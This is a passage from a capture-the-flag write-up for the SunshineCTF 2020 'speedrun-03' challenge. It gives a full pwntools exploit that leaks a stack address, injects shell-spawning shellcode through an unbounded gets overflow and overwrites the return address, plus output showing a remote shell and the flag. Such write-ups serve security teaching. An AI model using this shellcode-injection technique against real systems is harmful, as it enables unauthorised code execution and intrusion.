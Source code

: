 Just write out some shellcode, then pad with whatever until the return
address.  The pad length will be `0x78` (`local_78`, _starting to see a
pattern here?_) less the length of the shellcode.  Or put it after the return
address, `gets` has no limits.

### Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_03')

if not args.REMOTE:  
   p = process(binary.path)  
else:  
   p = remote('chal.2020.sunshinectf.org', 30003)

p.sendlineafter('Just in time.\n','foobar')

p.recvuntil('I\'ll make it: ')  
_ = p.recvline().strip()  
stack = int(_,16)  
log.info('stack: ' + hex(stack))

payload  = b''  
payload += asm(shellcraft.sh())  
payload += (0x78 - len(payload)) * b'\x90'  
payload += p64(stack)

p.sendline(payload)  
p.interactive()  
```

Output:

```bash  
# ./exploit_03.py REMOTE=1  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-03/chall_03'  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      PIE enabled  
   RWX:      Has RWX segments  
[+] Opening connection to chal.2020.sunshinectf.org on port 30003: Done  
[*] stack: 0x7fff1fc3e980  
[*] Switching to interactive mode  
$ id  
uid=1000(chall_03) gid=1000(chall_03) groups=1000(chall_03)  
$ ls -l  
total 16  
-rwxr-xr-x 1 root root     8488 Nov  7 07:49 chall_03  
-rw-r----- 1 root chall_03   47 Nov  7 08:51 flag.txt  
$ cat flag.txt  
sun{a-little-piece-of-heaven-26c8795afe7b3c49}  
```
